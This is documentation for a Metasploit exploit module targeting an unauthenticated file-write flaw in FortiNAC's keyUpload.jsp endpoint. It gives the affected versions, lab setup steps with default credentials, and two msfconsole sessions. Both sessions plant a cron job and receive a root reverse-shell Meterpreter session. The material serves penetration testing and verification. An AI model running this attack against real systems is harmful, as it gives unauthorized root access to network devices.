 ## Vulnerable Application

This module uploads a payload to the `/tmp` directory in addition to a cron job to `/etc/cron.d` which executes the payload
in the context of the `root` user.

The core vulnerability is an arbitrary file write issue in `/configWizard/keyUpload.jsp` which is accessible remotely and without
authentication. When you send this endpoint a ZIP file, it will extract an an attacker controlled file to directory
on the system of the attacker's choice.

This issue is exploitable on the following versions of FortiNAC:

- FortiNAC version 9.4 prior to 9.4.1
- FortiNAC version 9.2 prior to 9.2.6
- FortiNAC version 9.1 prior to 9.1.8
- FortiNAC 8.8 all versions
- FortiNAC 8.7 all versions
- FortiNAC 8.6 all versions
- FortiNAC 8.5 all versions
- FortiNAC 8.3 all versions

### Setup

Navigate to https://www.fortinet.com/demo-center/nac-demo to obtain a FortiNAC free product demo. Fill out the
necessary fields in order to download: first name, last name, job function, job level, company, email address, phone
number, state, zip/postal code. You'll receive a confirmation email; click the link in the email in order to access the
free product download.

Import the OVA file into your virtualization software of choice. Personally, I had success using VMWare Fusion. Note
that when using VMWare products, you will need to use a tool such as 7-Zip to unzip the `.ova` file, find the manifest
file contained within, which will end with `.mf`, and then rezip the file again. This is due to a bug noted at
https://github.com/home-assistant/operating-system/issues/2121

Personally I just navigated to the `.ova` file in Windows, right clicked, and chose `7-Zip`, then `Open Archive`,
and then deleted the `.mf` file that appeared before closing 7-Zip, which did the trick. Once this is done you
can then import the OVA file into VMWare fine.

Once the OVA file has been imported, but before starting the machine, if you are using VMWare, go into
`Edit->Virtual Network Editor` and look at the `Subnet Address` section for the `Host Only` adapter. You will
need this for later sections.

Next change the two interfaces of the imported machine from Bridged to Host Only. Then turn the machine on.
Once the machine turns on, log in with the following default credentials as outlined in the
[VMware Virtual Machine Installation Guide](https://fortinetweb.s3.amazonaws.com/docs.fortinet.com/v2/attachments/920a0000-200d-11e9-b6f6-f8bc1258b856/fortinac-vmware-install-85.pdf):

```
Username: root
Password: 162PemBnI
```

Once authenticated successfully, statically set the IP address of the machine using the subnet information you obtained
earlier. In our case the subnet was `192.168.123.0/24` so we just set the gateway to `192.168.123.1` and set the IP address
of the machine to `192.168.123.11/24` to set it to a static IP address that is available on this subnet. Be sure to update
these commands and any of the following commands to replace `192.168.123.11` and `192.168.123.1` with the appropriate
gateway and host IP addresses.

`configIP 192.168.123.11 255.255.255.0 192.168.123.1`

Navigate to the directory where the license file resides, and then start a Python SimpleHTTPServer web server to
host files from this directory using the following commands:

```
cd /bsc/campusMgr
python -m SimpleHTTPServer 9099
```

On your local machine download the license file from the Python server started above:

`wget -O licenseKey http://192.168.123.11:9099/.licenseKey`

On your local machine, open the browser of your choice and navigate to:

`https://192.168.123.11:8443/gui`

Authenticate with the default username and password:

```
Username: root
Password: YAMS
```

When installing the software, first accept the license agreement. Then upload the license key, providing the
the `.licenseKey` file you downloaded from the Python HTTP server and click `Next`. Under `Change Default Passwords`,
set a username and password for a new admin account that can log in via the GUI, and under `CLI Accounts` set a new
password for the `root` user to log in via the CLI of the console.

Under the `Select Installation Method` section, select `Manual Installation` and click `OK`. You should be redirected to
a URL that looks like `https://192.168.116.12:8443/gui/system/config-wizard` and be prompted to provide a license key.
Just provide the same `.licenseKey` file you downloaded, same procedure and key as you provided earlier and click `OK`.

At this point you should see a page with a header named `BASIC NETWORK`. Set the `Host Name (Do not include domain)`
field to `localhost` and then under `DNS` section, set the `Domain [example: yourdomain.com]` to `localhost.localdomain`.
Finally set the `Network Type` to `None`. This is a not a hard requirement but it will save you a lot of
unnecessary setup. Click `Next` and then `Apply` and click `OK` on the popup that appears.

Once this is done, you will be required to change the default passwords from the GUI and once complete,
restart the machine by clicking on the `Restart` button. One the machine reboots, you should have a
vulnerable instance of FortiNAC configured.

## Options

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/fortinac_keyupload_file_upload`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### FortiNAC 9.4.0 CMD Target

```
msf6 > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lport 4044
lport => 4044
msf6 exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:4044
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (24772 bytes) to 192.168.123.11
[*] Meterpreter session 1 opened (192.168.123.1:4044 -> 192.168.123.11:59938) at 2023-03-09 17:01:02 -0500
[!] This exploit may require manual cleanup of '/etc/cron.d/ZlzEXbWF' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : localhost.localhost.localdomain
OS              : Linux 3.10.0-1160.53.1.el7.x86_64 #1 SMP Fri Jan 14 13:59:45 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

### FortiNAC 9.4.0 Linux x64 Target
```
msf6 > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   CMD
    1   Linux x86
    2   Linux x64


msf6 exploit(linux/http/fortinac_keyupload_file_write) > set target 2
target => 2
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lport 9909
lport => 9909
msf6 exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:9909
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped payload to /configWizard/keyUpload.jsp
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (3045348 bytes) to 192.168.123.11
[*] Meterpreter session 3 opened (192.168.123.1:9909 -> 192.168.123.11:38266) at 2023-03-09 17:31:01 -0500
[!] This exploit may require manual cleanup of '/tmp/HcYciseH' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/DsxejZgV' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

